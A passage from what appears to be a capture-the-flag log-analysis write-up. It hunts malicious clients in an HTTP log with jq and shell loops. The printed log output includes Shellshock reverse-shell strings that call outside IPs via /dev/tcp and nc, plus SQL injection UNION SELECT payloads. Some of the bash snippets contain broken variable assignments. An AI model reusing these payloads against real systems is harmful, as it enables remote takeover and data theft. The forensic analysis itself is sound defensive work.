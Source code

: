 If we then take those IP addresses and remove any duplicates we can create one massive jq command to fetch all events associated with those IP addresses:

```bash
$ sort bad_ip.txt|uniq > bad_ip_uniq.txt
$ jq -r '.[]|select(."id.orig_h"|contains("0.216.249.31") or ... or contains("95.166.116.45"))|.' http.log > bad_requests.json
```

This is about 60 requests but we need at least 100. We can extract the user agent used in these requests, find all requests made with the same user agents and then sourt them depending on count like this:

```bash
$ jq -r '.user_agent' bad_requests.json |sort|uniq > bad_agents_uniq.txt
$ while read ua; do
  $ua_fix = $(echo $ua | sed "s/'/\\'/g; s/\"/\\\\\"/g")
  jq -r '.[]|select(."user_agent" == "'"$ua_fix"'")|.user_agent' http.log;
done < bad_agents_uniq.txt | sort | uniq -c | sort -nr 
```

> 19 Mozilla/4.0 (compatible; MSIE 5.13; Mac_PowerPC)  
> 17 Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5  
> 15 Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/530.5 (KHTML, like Gecko) Chrome/2.0.172.43 Safari/530.5  
> ...  
> 9 Mozilla/5.0 (X11; U; Linux x86_64; de; rv:1.9.0.18) Gecko/2010021501 Ubuntu/9.04 (jaunty) Firefox/3.0.18  
> 9 Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.14) Gecko/20080419 Ubuntu/8.04 (hardy) Firefox/2.0.0.12 MEGAUPLOAD 1.0  
> 5 Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)  
> ...  
> 1 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1  
> 1 () { :; }; /bin/bash -i >& /dev/tcp/31.254.228.4/48051 0>&1  
> 1 () { :; }; /bin/bash -c '/bin/nc 55535 220.132.33.81 -e /bin/bash'  
> 1 1' UNION/**/SELECT/**/994320606,1,1,1,1,1,1,1/*&blogId=1  
> 1 1' UNION SELECT 1729540636,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x65,0x72, --  
> 1 1' UNION SELECT '1','2','automatedscanning','1233627891','5'/*  
> 1 1' UNION/**/SELECT/**/1,2,434635502,4/*&blog=1  
> 1 1' UNION SELECT 1,1409605378,1,1,1,1,1,1,1,1/*&blogId=1  

This reveals a bunch of fairly common user agents but also quite a few rare user agents. If we disregard the popular user agents and search for all IP addresses made from user agents seen less than 9 times (stored in "bad_agents_uniq_trim.txt") we get output similar to this:

```bash
$ while read ua;
$ do echo "### $ua";
  ua_fix = $(echo $ua|sed "s/'/\\'/g; s/\"/\\\\\"/g")
  jq -r '.[] | select(."user_agent" == "'"$ua_fix"'")|."id.orig_h"' http.log;
done < bad_agents_uniq_trim.txt 
### Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)
42.103.246.250
42.103.246.130
42.103.246.130
42.103.246.130
42.103.246.130
### Wget/1.9+cvs-stable (Red Hat modified)
37.216.249.50
129.121.121.48
### RookIE/1.0
45.239.232.245
142.128.135.10
### Opera/8.81 (Windows-NT 6.1; U; en)
...
```